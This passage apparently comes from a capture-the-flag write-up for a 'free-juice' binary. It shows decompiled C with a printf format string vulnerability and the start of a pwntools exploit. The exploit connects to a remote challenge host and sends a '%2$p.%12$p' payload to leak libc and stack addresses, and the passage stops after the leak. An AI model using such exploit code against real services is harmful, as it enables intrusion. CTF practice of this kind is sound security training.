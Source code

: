 ```c
      }
      if ( v4 == 2 )
      {
        refillJuices();
        continue;
      }
    }
    puts("Invalid choice. Please try again.");
  }
  while ( v4 != 4 );
  return 0;
}
```

```c
unsigned __int64 secretJuice()
{
  char format[264]; // [rsp+0h] [rbp-110h] BYREF
  unsigned __int64 v2; // [rsp+108h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  if ( chosenJuice )
  {
    puts("Let us know what juices you need and we will get back to you!");
    _isoc99_scanf("%256s", format);
    printf("Current Juice : ");
    printf(format);
    strncpy((char *)chosenJuice, format, 0xFFuLL);
    *((_BYTE *)chosenJuice + 255) = 0;
    putchar(10);
  }
  else
  {
    puts("Please choose a juice first.");
  }
  return __readfsqword(0x28u) ^ v2;
```

By using the format string vulnerability in the `secret_juice` function, it is possible to leak the addresses and use gadgets to get a shell on the server.

## solution
```py
from pwn import *

#p = process('./free-juice')
p = remote('13.229.84.41', 10001)

context.binary = elf = ELF('./free-juice')
libc = ELF("./lib/libc-2.23.so")

p.sendline(b'1')
p.sendline(b'1')
p.sendline(b'1337')

payload = b'%2$p.%12$p'

p.sendline(payload)

p.recvuntil(b' : ')
# libc leak
leak = p.recvuntil(b'.').strip(b'.')
# stack leak
stack_leak = p.recvuntil(b'\n').strip(b'\n')
```